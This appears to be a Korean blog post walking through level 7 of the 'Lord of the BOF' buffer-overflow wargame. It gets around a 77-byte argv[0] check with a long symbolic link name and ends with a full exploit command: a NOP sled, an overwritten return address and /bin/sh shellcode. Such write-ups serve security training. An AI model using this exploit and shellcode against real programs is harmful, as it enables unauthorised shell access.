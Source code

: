 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 7"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/lob/level7/1.jpg" | relative_url }}' alt='relative'>  

## 1) darkelf/kernel crashed 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level7/2.png" | relative_url }}' alt='relative'>  

``` c
// here is changed!
if(strlen(argv[0]) != 77){
    printf("argv[0] error\n");
    exit(0);
}
```

이전 코드에서 바뀐 부분을 확인해보니 argv[0]의 길이가 77 byte가 아닌 경우 프로그램이 종료한다고 합니다.  

argv[0]은 실행한 프로그램의 파일명인데 파일명의 길이를 77 byte로 어떻게 늘릴 수 있을까요?  
저는 symbolic link가 생각났습니다.  

## 2) orge 프로그램의 심볼릭 링크 파일 만들기  

``` bash
ln -s orge [file name]
```

심볼릭 링크 파일을 만드는 명령어는 ln 명령어에 -s 옵션을 사용합니다.  
argv[0]의 길이가 77 byte이어야 하기 때문에 이에 맞춰 파일 이름을 정해줍니다.  

<img data-action="zoom" src='{{ "assets/lob/level7/3.png" | relative_url }}' alt='relative'>  

프로그램을 실행할 때 ./name_a 라고 입력하였기 때문에 argv[0]에는 ./name_a라고 저장되어 있습니다.  
77 byte - 2 byte('./') =  75 byte  

심볼릭 링크 파일 명의 길이가 75 byte이면 됩니다.  

``` bash
ln -s orge `python -c 'print "A"*75'`
```

<img data-action="zoom" src='{{ "assets/lob/level7/4.png" | relative_url }}' alt='relative'>  

## 3) 공격 페이로드 입력하여 BOF 일으키기  

우선 쉘코드가 저장될 argv[2]의 위치를 대략적으로 파악하기 위해 orge.c 파일을 컴파일하여 test 프로그램을 생성합니다.  

<img data-action="zoom" src='{{ "assets/lob/level7/5.png" | relative_url }}' alt='relative'>  


test 프로그램을 gdb로 컴파일하니 0xbffff8ec 이 주소를 RET에 입력하면 쉘코드를 실행할 수 있을 것으로 예상됩니다.  

``` bash
./`python -c 'print "A"*75'` `python -c 'print "\x90"*44+"\xec\xf8\xff\xbf"'` `python -c 'print "\x90"*1000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

<img data-action="zoom" src='{{ "assets/lob/level7/5.png" | relative_url }}' alt='relative'>  